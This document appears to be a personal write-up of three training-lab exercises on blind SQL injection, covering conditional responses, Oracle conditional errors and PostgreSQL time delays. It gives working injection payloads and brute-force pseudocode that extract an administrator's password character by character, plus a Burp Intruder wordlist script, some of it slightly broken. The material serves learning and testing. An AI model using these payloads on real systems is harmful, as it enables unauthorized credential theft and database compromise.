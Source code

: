 Table of contents
=
[toc]
# Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab #1: Blind SQL injection with conditional responses


Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 
Example injected SQL query with `' AND '1'='1`:

```

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message

```
' AND '1'='1
' AND '1'='2 
```
3. Determine password length

```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
index = 1 
while True:
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	resp = requests.get(url, cookies)
	if resp contains "welcome":
		password += char
		index += 1
		
```
Automated script in the scripts folder.

## Lab #2: Blind SQL injection with conditional errors

Steps:
1. Determine the database version

```
TrackingId=abc' ORDER BY 1 --
TrackingId=abc' UNION SELECT banner FROM v$version --
```

2. Although there's no difference in query result beside internal error which means injection failed, I will keep the whole TrackingId for consistency.

Returns no error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a 
```

Returns error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

' AND (SELECT CASE WHEN (SUBSTR('administrator',1,1)='b') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

3. This third step just me figuring out how the oracle query works.
```
# return errors
# means it's false, password not started with A.
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users where username='administrator'),1,1)='A') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

4. Determine password length
```
Returns error (TRUE that password length is lower than 21):
' AND (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') < 21) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

Returns error (TRUE that password length is greater than 8):
' AND (SELECT CASE WHEN (LENGTH(SELECT password FROM users WHERE username='Administrator') > 8) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

5. Brute force.

```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),§P1§,1) = '§P2§') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

**With Burpsuite Intruder:**

P1 = Index = 1-21  
P2 = Chars = 0-9+a-z+A-Z

Create wordlist using python

```python
import string

p1=list(range(1,21)) # [1,2,3...,19, 20]
p2=string.digits+string.ascii_letters # [012..abc..XYZ]

# Payload for p1
for i in range p1:
	print(i)

for c in range p2:
	print(c)
```

Paste wordlist to Burpsuite intruder, use P1 in payload 1, P2 in payload 2.

**Using my multithread script (took less than 5 minutes):**

 https://gist.github.com/fahmifj/13d055117f729a233a8f4ccbefdb1680

## Lab #3: Blind SQL injection with time delays

Assume the query is:

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Since it's a blind sql, using Payload list is my first option

```
' AND 5=(SELECT 5 FROM PG_SLEEP(10))
``` 

And here is the lab solution using string concatenation.

```
'||pg_sleep(10) --
```

Reference
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based
